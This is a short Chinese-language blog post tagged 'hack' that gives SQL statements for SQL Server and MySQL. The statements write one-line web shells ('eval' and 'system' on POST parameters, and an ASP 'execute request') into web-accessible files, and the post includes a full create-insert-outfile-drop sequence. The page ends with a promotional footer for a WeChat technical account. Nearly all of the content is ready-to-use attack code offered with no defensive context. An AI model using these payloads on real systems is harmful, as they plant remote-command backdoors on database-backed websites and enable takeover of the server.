 ```yaml
---
layout: post
category: curleyg-code-hack
title: SQL语句生成一句话
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: SQL语句生成一句话
lock: need
---
```


# SQL语句生成一句话

**SQLServer执行SQL语句生成一句话**

```sql
select '<%execute request("a")%>' into [NB_master] in 'd:\wwwroot\x.asp;a.xls''excel 8.0;' from NB_master;
```

NB_master必须是已经存在的表

**MySQL执行SQL语句生成一句话**

```sql
select "<?php @system($_POST["cmd"]);?>" into outfile "/home/webaccount/projectname/www/*.php";
```

**完整执行如下：**

```sql
create table a (cmd text not null);
insert into a(cmd) values('<?php eval($_POST[cmd]);?>');
select cmd from a into outfile '网站可写路径/一句话马名.php';
drop table if exists a;
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
